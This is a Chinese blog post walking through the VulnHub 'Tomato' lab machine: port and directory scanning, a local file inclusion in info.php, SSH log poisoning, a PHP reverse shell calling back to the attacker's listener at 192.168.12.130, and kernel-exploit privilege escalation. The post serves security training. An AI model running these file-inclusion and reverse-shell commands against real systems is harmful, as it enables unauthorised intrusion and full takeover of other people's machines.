 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/40zG1Tjmo_8pbbpN-IWZ4A)

**点击蓝字**  

关注我们

0x00 靶机信息  

靶机: Tomato

难度: 中—难

下载: https://www.vulnhub.com/entry/tomato-1,557/

0x01 信息收集

Nmap 扫描当前网段来确定靶场 IP  

```
nmap -sP 192.168.12.1/24
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsdscUZmbibNPRAHCWg0ZgibdicMPnBMIp6C9uUXDWmPMue0782LSvwzaAFARPeP4lMu1qgfufU4QxIiaw/640?wx_fmt=png)

接下来在扫描端口的同时访问靶场 WEB 服务

```
nmap -p- 192.168.12.129
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsdscUZmbibNPRAHCWg0ZgibdicZhWAJ3N33icFnAI4Yibxp5Kc2yggNk9DNu3SZ1mib7Zk7iaH0WDRuicszCw/640?wx_fmt=png)

发现 21，80，2211，8888，四个端口

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsdscUZmbibNPRAHCWg0ZgibdicotQrQnLf6pwhrBr9ebh0HibmeSpZkJahZibTL6FUJldf7r1UHHnQC2MA/640?wx_fmt=png)

接下来扫描一下网站目录

```
dirb http://192.168.12.129/
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsdscUZmbibNPRAHCWg0ZgibdicrcReCE9jBHS9B03ljM1ZymXaq22IONr5kutl5hKMO3DwicmulNGx4yg/640?wx_fmt=png)

访问 antibot_image 发现存在目录遍历

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsdscUZmbibNPRAHCWg0Zgibdic5VnVdBFUHbByQLa7Yc6Rw0hF0KAd9D14BeH6qoh3RlLX1Qq5lDHo2A/640?wx_fmt=png)

在 antibot_image/antibots 文件夹内发现 info.php

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsdscUZmbibNPRAHCWg0Zgibdic2JNia8JmGj6OfAMYiaplVAM42yVwCkOiaZzaUgtw1J2ic6pDAz8UbY3kpw/640?wx_fmt=png)

寻找有价值信息，在源码内发现注释

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsdscUZmbibNPRAHCWg0ZgibdicCibnxYwM9FJhMz0ibU58ozQCXJSIzSVGibK3L5lFuzIexEm5tKibBNqsqA/640?wx_fmt=png)

0x02 漏洞利用

直接利用文件包含访问 passwd  

```
http://192.168.12.129/antibot_image/antibots/info.php?image=../../../../../etc/passwd
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsdscUZmbibNPRAHCWg0ZgibdicFFY0fh9YmzoTc83saU6M9MERLxNibX04aylhAmWLFa9JhkQibwEJo24w/640?wx_fmt=png)

接下来尝试文件包含被污染的 SSH 日志来 getshell

```
ssh ''@192.168.12.129 -p2211
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsdscUZmbibNPRAHCWg0Zgibdic8V18iaJuroHf7JicqU5fcYLRKCKYsMVb9ququY4n2z3Cmz6P83tmWyog/640?wx_fmt=png)

开启 nc 监听

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsdscUZmbibNPRAHCWg0ZgibdicuaRdicdwTMmTMNicfbwNagaUsvnpMvOZMlM9R9jgicHWblO1K6pib5BMRQ/640?wx_fmt=png)

反弹 shell   将

```
http://192.168.12.129/antibot_image/antibots/info.php?image=../../../../../var/log/auth.log&shell=php -r '$sock=fsockopen("192.168.12.130",3388);exec("/bin/sh -i &3 2>&3");'
```

进行 URL 编码  

```
http://192.168.12.129/antibot_image/antibots/info.php?image=../../../../../var/log/auth.log&shell=php+-r+%27%24sock%3dfsockopen(%22192.168.12.130%22%2c3388)%3bexec(%22%2fbin%2fsh+-i+%3c%263+%3e%263+2%3e%263%22)%3b%27
```

访问 URL，成功反弹 shell

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsdscUZmbibNPRAHCWg0ZgibdicMiboaMia43n3UX94rhkDavpy23Nt0fSqh3dEk9WcH9Ugw65PdZWsfDVA/640?wx_fmt=png)

0x03 提权

开启交互 shell

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsdscUZmbibNPRAHCWg0ZgibdicN6XTia2xaSB6aX11PfVjoSElvf2VWkj4nmo8c4BMib9sGVQNWaCLPICQ/640?wx_fmt=png)

下载提权脚本

```
git clone https://github.com/kkamagui/linux-kernel-exploits.git
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsdscUZmbibNPRAHCWg0ZgibdichgkMLNZdNHEloZBwp321VvRibZvAOjsqx1icxDIuzhDG2taH1zrqVCew/640?wx_fmt=png)

在脚本中找到对应的提权脚本，执行 sh 文件编译 exp

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsdscUZmbibNPRAHCWg0Zgibdic8M2TPabFY1iaJ3bu7KApI6YjCIhzpJtqS6ibmIkKfmnZDZ9Ldobov3CA/640?wx_fmt=png)

开启 apache2，把 exp 上传到网站根目录下

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsdscUZmbibNPRAHCWg0Zgibdic7LBbSh97rFaCKKmARDgQm7dPEJumicj0IIkdy9317aP4KtLF0ZM2K3A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsdscUZmbibNPRAHCWg0ZgibdicQgIA9ca0Q7Hod2g8eFmdWZqskcaeIbYNicCHTtQE6adby4vKfiaerLpg/640?wx_fmt=png)

下载 exp 赋予 777 权限并执行

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsdscUZmbibNPRAHCWg0ZgibdiccdzSRQZeLTVrBoh6JuBrMmxEwBaWJzibSppVI2ETUswx7G661IccUnw/640?wx_fmt=png)

拿到 flag

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CsdscUZmbibNPRAHCWg0Zgibdicft4fWP7Yb4ZTc5SibhlVxW0jz7Zx51KwdMaRicLT9XswrQlicvqKjvR6Q/640?wx_fmt=png)

 **往期推荐 ·**

  

[Vulnhub 篇 chili](http://mp.weixin.qq.com/s?__biz=MzI3ODkyOTYxOA==&mid=2247483773&idx=1&sn=6d0e5dc2f04a1cec1f01b4848a4a1582&chksm=eb4ec8c0dc3941d638f47dcb06959d7ae311a9d5a8d38780f397f899f31766bbadb3606f3f18&scene=21#wechat_redirect)

[Vulnhub 篇 Photographerr:1](http://mp.weixin.qq.com/s?__biz=MzI3ODkyOTYxOA==&mid=2247483673&idx=1&sn=c1f22eebcf5affb13ae324af7a030449&chksm=eb4ec8a4dc3941b21b2078a6e5d84462ac0ae5253b9176c12d9e3d53539ba27e2d8fbe36f85f&scene=21#wechat_redirect)  

[Vulnhub 篇 presidential:1](http://mp.weixin.qq.com/s?__biz=MzI3ODkyOTYxOA==&mid=2247483700&idx=1&sn=5a54f2be75bd9bdf0d3a84367ea8afb2&chksm=eb4ec889dc39419f55e446dafd3e5aa26379cbc24b048b3d7624a3fb510ad87847b828b6e1b4&scene=21#wechat_redirect)  

[暗黑引擎—Shodan 常用搜索语法](http://mp.weixin.qq.com/s?__biz=MzI3ODkyOTYxOA==&mid=2247483732&idx=1&sn=8a93eac665e72b9eab0c41e3d509fd57&chksm=eb4ec8e9dc3941ff4542d62319b42e58fe1863727740c465aa954b57fbbf1503d8e8fa94a2da&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7Cse7ScwpcZ0hYFNyAKSke4yDtZo2F6PWmVicuic2AWqOhAZTDChCHULs8kCwFBsCjp1zkicUUKibT9icgzw/640?wx_fmt=png)